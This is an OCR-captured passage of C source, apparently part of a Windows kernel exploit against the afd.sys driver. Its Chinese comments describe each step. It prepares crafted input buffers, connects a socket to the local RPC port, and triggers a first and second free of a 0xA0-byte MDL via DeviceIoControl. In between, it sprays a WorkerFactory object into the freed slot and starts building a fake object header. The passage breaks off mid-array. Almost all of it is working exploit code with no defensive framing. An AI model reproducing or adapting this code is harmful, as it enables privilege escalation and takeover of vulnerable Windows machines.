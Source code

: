 ```
    if (!GetFuncAddr()) 
    { 
        printf("GetFuncAddr Failed \n"); 
        return 0; 
    } 
 
    DWORD mdlSize = 0xA0; 
    DWORD virtualAddress = 0x710DDDD; 
    DWORD length = 0x1F224; 
 
 
    //这里初始化第一次IO控制的inputbuf  以达到第一次释放的目标 
    static BYTE inbuf1[0x30]; 
    memset(inbuf1, 0, sizeof(inbuf1)); 
    *(ULONG*)(inbuf1 + 0x18) = virtualAddress; 
    *(ULONG*)(inbuf1 + 0x1C) = length; 
    *(ULONG*)(inbuf1 + 0x28) = 1; 
 
    //这里初始化第二次IO控制的inputbuf  以到达第二次释放的目标 
    static BYTE inbuf2[0x10]; 
    memset(inbuf2, 0, sizeof(inbuf2)); 
    *(ULONG*)inbuf2 = 1; 
    *(ULONG*)(inbuf2 + 4) = 0x0AAAAAAA; 
 
    WSADATA         WSAData; 
    SOCKET         s; 
    SOCKADDR_IN  sa; 
    int             ierr; 
 
    WSAStartup(0x2, &WSAData); 
    s = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP); 
 
    memset(&sa, 0, sizeof(sa)); 
    sa.sin_port = htons(135); 
    sa.sin_addr.S_un.S_addr = inet_addr("127.0.0.1"); 
    sa.sin_family = AF_INET; 
    //创建会调用到afd.sys漏洞函数的socket句柄 
    ierr = connect(s, (const struct sockaddr*)&sa, sizeof(sa)); 
 
    // 释放第一次申请的mdl结构，大小为0xA0 
    DeviceIoControl((HANDLE)s, 0x1207F, (LPVOID)inbuf1, 0x30, NULL, 0, NULL, NULL); 
 
    // 创建一个 WorkerFactory Object 来占坑释放的 mdl 0xA0 的空间 
    HANDLE hCompletionPort = CreateIoCompletionPort(INVALID_HANDLE_VALUE, NULL, 1337, 4); 
 
    //创建WorkerFactory对象 
    DebugBreak(); 
    DWORD Status = MyNtCreateWorkerFactory(&hWorkerFactory, GENERIC_ALL, NULL, hCompletionPort, (HANDLE)-1, NULL, NULL, 0, 0, 0); 
 
    // 第二次释放  释放掉的内存是 WorkerFactory Object 
    DeviceIoControl((HANDLE)s, 0x120C3, (LPVOID)inbuf2, 0x10, NULL, 0, NULL, NULL); 
 
    //开始操作WorkerFactory Object 
    BYTE WorkerFactory[0xA0] = { 0 }; 
 
    //申请的时候把对象前0x28字节复制过来 Handle置为NULL 
    BYTE ObjHead[0x28] = {        0x00, 0x00, 0x00, 0x00, 0xA8, 0x00, 0x00, 0x00,    
                                0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
 
                                0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,  
                                0x00, 0x00, 0x00, 0x00, 0x16, 0x00, 0x08, 0x00, 
                                0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 };  
```